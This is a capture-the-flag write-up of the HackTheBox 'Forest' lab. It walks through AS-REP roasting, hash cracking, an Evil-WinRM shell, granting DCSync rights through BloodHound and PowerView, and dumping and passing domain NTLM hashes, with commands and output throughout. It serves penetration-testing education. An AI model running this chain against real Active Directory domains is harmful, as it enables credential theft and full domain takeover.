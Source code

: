 ```yaml
---
title: "HackTheBox Forest"
date: 2022-11-11T19:09:00+01:00
draft: false 
tags: [
    "HackTheBox",
    "Pentest",
]
---
```


Exploit a domain controller that allows us to enumerate users over RPC, attack Kerberos 
with AS-REP Roasting, and use Evil-WinRM to get a shell. Then using Bloodhound we can take
advantage of the permissions of some user that allow us to dump admin hash to get a shell as admin.
<!--more-->

# **Introduction**

It's been a long time since I posted my last writeup, now I'm back. We start with a cool box to begin with <span style="color:#85B5EB">Active Directory</span>.

## **Nmap**
Let's start with the nmap scan which shows us typical open ports for a Windows machine :

```text
# Nmap 7.91 scan initiated Tue Jul 13 06:49:02 2021 as: nmap -sC -sV -o output_nmap.txt 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.079s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-13 10:59:12Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## **SMB**

We can see that port 445 is open, which is the SMB port. Let's use with smbmap to see if we can access some shares :

```text
kali@kali# smbmap -H 10.10.10.161
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.161...
[+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
        Disk    Permissions                                             
        ----     -----------                                               
[!] Access Denied
```
Unfortunately, we can't access the shares without a password but don't worry we can connect as null user with  <span style="color:#85B5EB">rpcclient</span> to enumerate  <span style="color:#85B5EB">users</span> and  <span style="color:#85B5EB">groups</span> : 

```text
kali@kali# rpcclient -U "" -N 10.10.10.161
rpcclient $>
```
Then use enumdomusers command to get a list of users :

```text
rpcclient $> enumdomusers              
user:[Administrator] rid:[0x1f4]       
...[snip]...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```
Above you can see a list of potential user which might be  <span style="color:#85B5EB">vulnerable</span> to something.

## **Own user svc-alfresco**

 Now what can we do with these users ? We can use a method called  <span style="color:#85B5EB">AS-REP Roasting</span>  to get the password hashes of these users.
This method require the user to have the <span style="color:#85B5EB"> don't require Kerberos pre-authentication</span>  option enabled. We can check this with a script from impacket collection : 
``` 
/opt/tool/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 -usersfile users.txt htb/
```
Jackpot ! We got the hash of the user <span style="color:#85B5EB">svc-alfresco</span>. We can crack his hashes with hashcat :
```
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt 
```
Hashcat easily cracked the password : <span style="color:#85B5EB">s3rvice</span>.

Finally we can use these credentials to log in as svc-alfresco using <span style="color:#85B5EB">Evil-WinRM</span> :

```
kali@kali# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
                                                         
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
From There we can grab the user flag : 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
************************     
```

## **Time for Root**

From there I just collected data using  <span style="color:#85B5EB">bloodhound-python</span>
so we can import the  <span style="color:#85B5EB">.json files</span> in BloodHound :
```
bloodhound-python -u svc-alfresco -p 's3rvice' -d htb.local -ns 10.10.10.161 -c DcOnly
```

After importing the data, under  <span style="color:#85B5EB">Queries</span>, just click on   <span style="color:#85B5EB">Find Shorter Paths to Domain Admin</span>, and we get the following graph:
![image text](/bloodhound.png)

Basically svc-alfresco is a member of  <span style="color:#85B5EB">Privileged IT Account</span>, which is a member of  <span style="color:#85B5EB">Account Operators</span>, so it’s like my user is a member of <span style="color:#85B5EB">Account Operators</span> and Account Operators has Generic All privilege on the <span style="color:#85B5EB">Exchange Windows Permissions</span> group. If I click on the edge in Bloodhound, and select help, there’s an <span style="color:#85B5EB">Abuse Info</span> tab in the pop up that displays:

![image text](/abuse_info.png)

The Exchange Windows Permissions group has <span style="color:#85B5EB">WriteDacl</span>
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. In other words we can add a user to this group and give them <span style="color:#85B5EB">DCSync privileges<span>.

Let's go back to our shell and create a new user, add him to Exchange Windows Permissions group :

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net user add achla Pa$$sw0rd! /add /domain
```
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net group "Exchange Windows Permissions" achla /add
```

After importing [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script we can
use the Add-ObjectACL with achla's credentials, and give him DCSync rights.

```
$pass = ConvertTo-SecureString 'Pa$$sw0rd!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\achla', $pass)
Add-ObjectAcl -Credential $Cred -PrincipalIdentity achla -Rights DCSync
```

To conclude I used the <span style="color:#85B5EB">secretdump</span> script from impacket to get the NTLM hashes for all domain users.
```
kali@kali# /opt/tool/impacket/examples/secretsdump.py achla:Pa$$w0rd!@10.10.10.161

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 
```

We've got the hash for Administrator, let's just login using psexec (or Evil-WinRM).

```
kali@kali# /opt/tool/impacket/examples/psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
Just grab the root flag in Administrator's Desktop and voila.
That all for me, thanks for reading.